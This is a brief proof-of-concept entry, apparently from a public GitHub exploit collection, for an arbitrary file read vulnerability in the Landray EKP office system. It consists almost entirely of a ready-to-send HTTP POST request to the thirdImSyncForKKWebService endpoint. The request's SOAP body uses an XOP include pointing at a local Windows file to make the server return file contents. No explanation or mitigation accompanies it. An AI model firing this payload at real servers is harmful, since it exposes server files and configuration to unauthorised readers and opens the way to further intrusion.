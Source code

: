 # landray_thirdImSyncForKKWebService_fileread

from: https://github.com/wy876/POC/blob/main/%E8%93%9D%E5%87%8COA/%E8%93%9D%E5%87%8CEKP%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3thirdImSyncForKKWebService%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

product: 蓝凌EKP
```
POST /sys/webservice/thirdImSyncForKKWebService HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Connection: close
Content-Length: 563
Content-Type: multipart/related; boundary=----oxmmdmlnvlx08yluof5q
SOAPAction: ""
Accept-Encoding: gzip, deflate

------oxmmdmlnvlx08yluof5q
Content-Disposition: form-data; name="a"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.kk.im.third.kmss.landray.com/">
<soapenv:Header/>
<soapenv:Body>
<web:getTodo>
<arg0>
<otherCond>1</otherCond>
<pageNo>1</pageNo>
<rowSize>1</rowSize>
<targets>1</targets>
<type><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///c:windows/win.ini"/></type>
</arg0>
</web:getTodo>
</soapenv:Body>
</soapenv:Envelope>
------oxmmdmlnvlx08yluof5q--
```
